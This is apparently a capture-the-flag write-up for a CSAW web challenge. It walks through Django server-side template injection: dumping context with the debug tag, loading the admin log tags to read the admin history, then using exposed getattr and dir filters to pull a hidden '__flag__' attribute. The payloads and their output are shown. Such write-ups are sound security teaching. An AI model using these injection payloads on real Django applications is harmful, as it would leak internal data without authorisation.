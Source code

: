 # Shia Labeouf-off!

One of my teammates mentioned that it was a template injection, so I focused on the ad-lib page.

**http://web.chal.csaw.io:5490/ad-lib/**

So first thing to do was look at what templates we could use, using the [Django Documentation for Built in Template and Filter Tags](https://docs.djangoproject.com/en/1.11/ref/templates/builtins/)

Unfortunately, the only useful ones were
```
	{% debug %}
	{% load somelibrary %}
	{% load sometag from somelibrary %}
```
We can clean up the debug ouput adding a force_escape filter and pre tags:
```
	<pre>{% filter force_escape %} {% debug %} {% endfilter %}</pre>
```
Which gives us the following:
```
	{'block': <Block Node: content. Contents: [<TextNode: u'\n<pre>'>
    <django.template.defaulttags.FilterNode object at 0x7f135efbb3d0>
    <TextNode: u'</pre>\n'>]>}{'block': <Block Node: body. Contents:
    [<TextNode: u'\n<div class="container">\n'>,
    <Block Node: content. Contents: [<TextNode: u'\n            <h1>Example '>]>,
    <TextNode: u'\n\n        </div>\n    </di'>]>}{}
    {'DEFAULT_MESSAGE_LEVELS': {'DEBUG': 10,
								'ERROR': 40,
								'INFO': 20,
								'SUCCESS': 25,
								'WARNING': 30},
	 u'csrf_token': <SimpleLazyObject: <function _get_val at 0x7f135ef32d70>>,
	 'messages': <django.contrib.messages.storage.fallback.FallbackStorage object at 0x7f135efbb7d0>,
	 'perms': <django.contrib.auth.context_processors.PermWrapper object at 0x7f135ef61350>,
	 u'request': <WSGIRequest: POST '/ad-lib/'>,
	 'user': <SimpleLazyObject: <function <lambda> at 0x7f135ef32de8>>}{'adjective': '<img src="https://media1.giphy.com/media/TxXhUgEUWWL6/200.webp#129-grid1" />',
	 'mrpoopy': <ad-lib.someclass.Woohoo instance at 0x7f135f1136c8>,
	 'noun': '<img src="https://media0.giphy.com/media/arNexgslLkqVq/200.webp#70-grid1" />',
	 'verb': '<img src="https://media3.giphy.com/media/R0vQH2T9T4zza/200.webp#165-grid1" />'}{'False': False, 'None': None, 'True': True}
```
Note: While debug gives us both the current context and the imported modules, I excluded the module section because it's very long.

While looking at the debug output, out of the very long list of modules, I noticed that template tags were being imported, and decided to try importing some of these.

While attempting to load adlib_extras, I accidentally misspelled it and received an error page:
```
	TemplateSyntaxError at /ad-lib/
	'adlib_extra' is not a registered tag library. Must be one of:
	adlib_extras
	admin_list
	admin_modify
	admin_static
	admin_urls
	cache
	i18n
	l10n
	log
	pools_extras
	static
	staticfiles
	tz
```
Huh, maybe I can enumerate tags in a library using the version of load that loads a specific tag?
```
	TemplateSyntaxError at /ad-lib/
	'test' is not a valid tag or filter in tag library 'pools_extras'
```
I verified it's not possible to do by examining the Django source code. Oddly enough, they choose to enumerate the tag libraries available, but not the tags in the individual libraries.

However, it dawned on me that while Django's documentation does list the normal built in template tags, the documentation does not list some of the ones I expected to see, and realized that the documentation did not list ones imported from modules, so I started combing the source for more template tags.

After looking through the source, I found what I was looking for, the template tags for the admin module:

[https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py](https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py)

I was then able to write my own crude implementation of the Django admin log.
```
	{% load log %}
	{% get_admin_log 1000 as admin_log %}
	<ul>
	{% for gLog in admin_log %}
	<li>{{gLog.user}} {{gLog.content_type}} {{gLog.object_id}} {{gLog.object_repr}} {{gLog.action_flag}} {{gLog.change_message}} {{gLog.action_time}}</li>
	{% endfor %}
	</ul>
```
Which gives us this:
```
	admin poll 3 asdf 1 [{"added": {}}] Sept. 13, 2017, 8:08 p.m.
	admin poll 1 Which one would you take into battle? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
	admin poll 2 Who is the most Shia of them all? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
	admin choice 8 https://media0.giphy.com/media/SPWzxnP0ga2t2/200w.webp#124-grid3 1 Sept. 13, 2017, 2:54 a.m.
	admin choice 7 https://media0.giphy.com/media/l2JdV73x6Ifdub8ly/200.webp#93-grid3 1 Sept. 13, 2017, 2:54 a.m.
	admin choice 6 https://media2.giphy.com/media/Oh4URwX1apHws/200.webp#66-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 5 https://media3.giphy.com/media/KCd6BFerCh3TG/200.webp#58-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 4 https://media2.giphy.com/media/MVCqaCH3Dzt3q/200.webp#52-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 3 https://media0.giphy.com/media/xT5LMvK0kjdURtXa48/200.webp#38-grid3 1 Sept. 13, 2017, 2:51 a.m.
	admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 No fields changed. Sept. 13, 2017, 2:50 a.m.
	admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
	admin choice 2 https://media2.giphy.com/media/3oz8xFfwgt4ncWYtva/200.webp#17-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
	admin choice 2 https://media3.giphy.com/media/l2Je4rm0DCduJ6QJG/200.webp#16-grid3 1 Sept. 13, 2017, 2:50 a.m.
	admin choice 1 https://media2.giphy.com/media/3o7TKP9ln2Dr6ze6f6/giphy.gif 1 Sept. 13, 2017, 2:49 a.m.
	admin choice 1 Green 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 2 Blue 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 3 Red 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 4 Yellow 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 5 Black 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 6 Orange 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 7 Other 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 8 Paul 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 9 John 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 10 RIngo 3 Sept. 13, 2017, 2:47 a.m.
	admin choice 11 George 3 Sept. 13, 2017, 2:47 a.m.
	admin poll 1 What is your favorite color 2 Changed question. Aug. 16, 2013, 1:08 p.m.
	admin poll 2 Favorite Beatle 2 Changed question. Aug. 16, 2013, 1:08 p.m.
	admin poll 2 Favorite Beatle? 1 Aug. 16, 2013, 1:08 p.m.
	admin poll 1 What is your favorite color? 1 Aug. 16, 2013, 11:22 a.m.
```
Unfortunately, the flag was not in here, but upon looking at the log, I noticed that there was a third poll, even though there were only 2 polls on the poll page. That seemed odd, so I decided to check it out.

**http://web.chal.csaw.io:5490/polls/3/**

Visiting this 3rd poll gives us an exception, but in the traceback, I noticed that the traceback gives us some of the code in **./polls/templatetags/pools_extras.py**, which you'll recognize from the earlier debug output.
```
	@register.filter(name='getme')
	def getme(value, arg):
	  return getattr(value, arg)
	@register.filter(name='checknum')
	def checknum(value):
	  check(value) 
	@register.filter(name='listme')
	def listme(value):
	  return dir(value)
	def check(value):
	  if value > 2:
		raise Exception("Our infrastructure can't support that many Shias!")
```
Having spent the last couple hours learning Django template tags and filters, I recognized these as Django template filter definitions, exposing some python functions, **dir** and **getattr**.

It became pretty clear that I was to use these to get the flag, but from where? Going to back to the debug context output, **mrpoopy** stands out as exposing a class.
```
	{{mrpoopy | listme}}
```
Which shows us the the attributes of mrpoopy:
```	
	['Woohoo', '__doc__', '__flag__', '__module__']
```	
Now we know where the flag is, let's get it:
```
	{{mrpoopy | getme:"__flag__" }}
```	
Which gives us the flag:
```
	flag{wow_much_t3mplate}
```